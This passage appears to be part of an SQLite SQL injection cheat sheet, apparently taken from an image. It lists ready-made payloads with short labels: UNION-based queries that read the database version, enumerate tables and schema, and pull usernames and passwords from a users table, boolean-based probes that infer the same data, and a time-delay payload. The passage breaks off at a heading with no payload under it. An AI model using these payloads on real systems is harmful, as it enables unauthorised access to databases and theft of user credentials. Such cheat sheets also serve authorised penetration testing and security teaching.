 ```
' UNION SELECT NULL, sqlite_version() -- -
```

- **Table Name Enumeration:** Retrieves the name of a table from the database schema.

```
' UNION SELECT NULL, name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0 -- -
```

- **Column Name Enumeration:** Extracts the column definitions from a specified table.

```
' UNION SELECT NULL, sql FROM sqlite_master WHERE type='table' AND name='users' -- -
```

- **User Data Extraction:** Extracts data from specified columns in the `users` table.

```
' UNION SELECT NULL, username, password FROM users -- -
```

### Boolean-Based SQLi

- **Checking SQLite Version:** Evaluates to true if the SQLite version starts with '3'.

```
' AND SUBSTRING(sqlite_version(), 1, 1) = '3' -- -
```

- **Determining the Number of Tables:** Evaluates to true if there are more than 5 tables in the database.

```
' AND (SELECT COUNT(*) FROM sqlite_master WHERE type='table') > 5 -- -
```

- **Checking Existence of a Column:** Evaluates to true if the `password` column exists in the `users` table.

```
' AND (SELECT COUNT(*) FROM pragma_table_info('users') WHERE name='password') > 0 -- -
```

- **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `users` table is 'a'.

```
' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a' -- -
```

### Time-Based SQLi

- **Basic Time Delay Test:** Forces SQLite to take more time processing the query, creating an artificial delay.

```
' OR 1=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) -- -
```

- **Conditional Time Delay:** Causes a time delay if the condition `1=1` is true.
